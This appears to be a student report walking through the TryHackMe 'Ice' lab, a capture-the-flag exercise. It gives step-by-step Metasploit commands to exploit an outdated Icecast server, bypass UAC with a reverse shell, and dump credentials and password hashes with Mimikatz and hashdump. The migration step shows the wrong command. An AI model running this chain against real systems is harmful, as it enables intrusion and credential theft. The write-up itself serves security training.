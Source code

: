 ```yaml
---
Title: SWS101 report6
categories: [SWS101, report6]
tags: [SWS101]
---
```


# TryHackMe - Ice
Deploy & hack into a Windows machine, exploiting a very poorly secured media server.

In this walkthrough, we will cover the steps needed to complete the "Ice" challenge on Try Hack Me. The challenge will help you understand enumeration, exploiting outdated software, using Metasploit, and performing basic Windows exploitation.

### Task 1: 
Initiate the VPN Connection and Deploy the Machine
Connect to the Try Hack Me VPN using your configuration file:

    sudo openvpn <your_config_file>.ovpn
Deploy the target machine and wait for it to start.

### Task 2: Enumeration
Add the target machine’s IP address to your /etc/hosts file for easier access:
    echo 10.10.115.141 ice >> /etc/hosts

Perform a basic Nmap scan to discover open ports:

    nmap ice

![alt text](../assets/Screenshot_2024-05-27_23-47-36.png)

Based on the initial scan, perform a more detailed scan on the discovered ports:

    nmap -p135,139,445,3389,5357,8000,49152,49153,49154,49158,49159,49160 -A -T4 ice

![alt text](../assets/Screenshot_2024-05-27_23-50-36.png)

Analyze the scan results to identify interesting open ports and services. 
Key findings include:

Port 8000: Icecast service
Port 3389: Microsoft Remote Desktop (RDP)
Hostname: DARK-PC

### Task 3: Getting Access
Search for vulnerabilities in Icecast using CVE details:

Vulnerability: CVE-2004-1561 (Buffer Overflow in Icecast 2.0.1 and earlier)
Start Metasploit and search for the Icecast exploit:

    msfconsole
    search icecast
Select the Icecast exploit module:

    use exploit/windows/http/icecast_header
Set the required options and run the exploit:

    set RHOSTS ice
    run

Verify that you have gained a Meterpreter shell:

getuid

### Task 4: Escalate Privileges
Gather information about the target system:

    getuid
    sysinfo

Use Metasploit's local exploit suggester to find potential privilege escalation exploits:

    run post/multi/recon/local_exploit_suggester
Select the suggested exploit for bypassing UAC:

    use exploit/windows/local/bypassuac_eventvwr
    set SESSION 1
Set the LHOST option to your Try Hack Me VPN IP:

    set LHOST <your_IP>
    run
Verify the new privileges:

    getprivs

### Task 5: Looting
List the processes and find the spoolsv.exe process:

    ps
Migrate to the spoolsv.exe process:

    getuid
Load Mimikatz and retrieve all credentials:

    load kiwi
creds_all
Note down the password for the user "Dark":

Password: Password01!

### Task 6: Post-Exploitation
Explore Meterpreter's capabilities by using the help command:

    help
Dump all password hashes stored on the system:

    hashdump
View the remote user’s desktop:

    screenshare